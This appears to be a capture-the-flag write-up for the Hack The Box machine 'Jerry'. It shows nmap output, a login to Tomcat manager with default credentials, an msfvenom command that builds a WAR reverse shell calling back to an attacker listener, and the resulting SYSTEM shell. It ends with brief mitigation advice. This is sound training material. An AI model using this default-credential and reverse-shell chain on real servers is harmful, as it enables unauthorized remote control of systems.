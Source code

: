 # Jerry

```
kali@kali:~/htb/Jerry$ sudo nmap -sV -sC 10.129.90.141
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 20:13 EST
Nmap scan report for 10.129.90.141
Host is up (0.027s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.91 seconds
kali@kali:~/htb/Jerry$
```

We are greeted by an Apache Tomcat/7.0.88 post-install page.

```
Managing Tomcat

For security, access to the manager webapp is restricted. Users are defined in:

$CATALINA_HOME/conf/tomcat-users.xml

In Tomcat 7.0 access to the manager application is split between different users.   Read more...
```

The manager webapp is http://10.129.90.141:8080/manager/html 

After failing the login we are redirected and get this message:

```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```
And I try tomcat:s3cret, and it works.

We get an admin panel.

```
Deploy
Deploy directory or WAR file located on server
```

Ok, so let’s google WAR reverse shell:

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/ 

And here we see we can create a war file with metasploit:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.69 LPORT=1337 -f war > shell.war
```

And then we upload this shell via the panel, and set up our listener:

```
kali@kali:~/htb/Jerry$ sudo rlwrap nc -nlvp 1337
[sudo] password for kali:
Listening on 0.0.0.0 1337
Connection received on 10.129.90.141 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

When we open the new page, we get the connection.

Already root.

The flags are located in “C:\Users\Administrator\Desktop\flags” 

And in the text file: `2 for the price of 1.txt`

To view this, we can simply use quotation marks around the file name:

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f8xxxxxxxxxxxxxxxxxxxxxx

root.txt
04a8b36e154xxxxxxxxxxxxxxxxxxxxxx
C:\Users\Administrator\Desktop\flags>
```

## Comparing myself to the official writeup:

The official writeup used a brute-force script to find the credentials. 

And make-war.sh to create the WAR file.

## How to stop this exploit:

Don’t use default credentials. Don’t run the webserver on root.
